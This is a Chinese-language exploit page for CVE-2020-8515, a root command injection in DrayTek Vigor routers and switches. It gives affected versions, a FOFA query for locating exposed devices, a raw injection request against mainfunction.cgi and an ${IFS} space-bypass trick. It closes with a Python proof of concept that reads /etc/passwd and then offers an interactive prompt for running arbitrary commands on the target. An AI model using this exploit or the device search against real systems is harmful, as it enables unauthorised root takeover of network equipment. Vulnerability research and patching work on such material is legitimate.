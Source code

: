 # DrayTek企业网络设备 远程命令执行 CVE-2020-8515

## 漏洞描述

DrayTek URI未能正确处理SHELL字符，远程攻击者可以利用该漏洞提交特殊的请求，可以ROOT权限执行任意命令。

远程命令注入漏洞被标记为CVE-2020-8515，主要影响了DrayTek Vigor网络设备，包括企业交换机、路由器、负载均衡器和VPN网关。

## 漏洞影响

```
Vigor2960 < v1.5.1
Vigor300B < v1.5.1
Vigor3900 < v1.5.1
VigorSwitch20P2121 <= v2.3.2
VigorSwitch20G1280 <= v2.3.2
VigorSwitch20P1280 <= v2.3.2
VigorSwitch20G2280 <= v2.3.2
VigorSwitch20P2280 <= v2.3.2
```

## FOFA

```
title="Vigor 2960"
```

## 漏洞复现

登录页面抓包

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162245637.png)

请求包如下

```plain
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: xxx.xxx.xxx.xxx
Connection: close
Content-Length: 67
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

action=login&keyPath=%27%0A%2fbin%2fls%0A%27&loginUser=a&loginPwd=a
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162245957.png)

其中出现注入点的参数为 **keyPath**

出现空格需要替换，例如 cat /etc/passwd --> cat${IFS}/etc/passwd

可以使用 & 执行额外一条命令 (URL编码为 %26)

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162245652.png)

## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: DrayTek企业网络设备                                        \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mCmd         >>> pwd                                                \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = "action=login&keyPath=%27%0A%2fbin%2fcat${IFS}/etc/passwd%0A%27&loginUser=a&loginPwd=a"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
        if "root" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
            while True:
                Cmd = input("\033[35mCmd >>> \033[0m")
                if Cmd == "exit":
                    sys.exit(0)
                else:
                    POC_2(target_url, Cmd)
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)
        sys.exit(0)

def POC_2(target_url, Cmd):
    vuln_url = target_url + "/cgi-bin/mainfunction.cgi"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    Cmd = Cmd.replace(' ','${IFS}')
    data = "action=login&keyPath=%27%0A%2fbin%2f%26{}%0A%27&loginUser=a&loginPwd=a".format(Cmd)
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, headers=headers, data=data, verify=False, timeout=5)
        if response.status_code == 200:
            print("\033[32m[o] 正在请求 {}/cgi-bin/mainfunction.cgi \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162245046.png)
